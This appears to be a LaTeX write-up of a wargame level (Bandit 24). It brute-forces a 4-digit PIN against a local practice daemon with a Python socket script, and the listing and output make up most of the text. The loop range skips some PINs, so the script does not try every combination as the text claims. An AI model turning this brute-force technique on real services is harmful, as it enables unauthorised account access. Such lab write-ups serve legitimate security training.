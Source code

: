 \documentclass[11pt]{article}
\makeatletter
\renewcommand{\paragraph}{%
  \@startsection{paragraph}{4}%
  {\z@}{2.0ex \@plus 1ex \@minus .2ex}{-1em}%
  {\normalfont\normalsize\bfseries}%
}
\makeatother
\begin{document}
\subsection{Level 24}
\paragraph{Goal}
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinaties. This is a method called brute-forcing.
\paragraph{Solution}
As there's no way for us to know what the secret pin is, we'll have to guess it. Rather than doing it manually, we're going to set up
a Python script to do it for us. Fortunately there is no rate-limiting, so we are able to send very large amounts of guesses per second.
\begin{lstlisting}
	bandit24@melinda:~$ cd /tmp
	bandit24@melinda:/tmp$ vim PushyStoreClerk.py
	bandit24@melinda:/tmp$ cat PushyStoreClerk.py
	#!/usr/bin/python

	import socket

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('localhost', 30002))
	s.recv(1024)

	for i in range(1111,9999):
	    print "Trying: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX "+str(i)
	    s.sendall("XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX "+str(i)+"\n")
	    data = s.recv(1024)
	    print data
	bandit24@melinda:/tmp$ chmod 755 PushyStoreClerk.py
	bandit24@melinda:/tmp$ ./PushyStoreClerk.py
	Trying: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX 1111
	Wrong! Please enter the correct pincode. Try again.

	Trying: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX 1112
	Wrong! Please enter the correct pincode. Try again.

	Trying: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX 1113
	Wrong! Please enter the correct pincode. Try again.

	...

	Trying: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX YYYY
	Correct!
	The password of user bandit25 is ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ
\end{lstlisting}
\end{document}
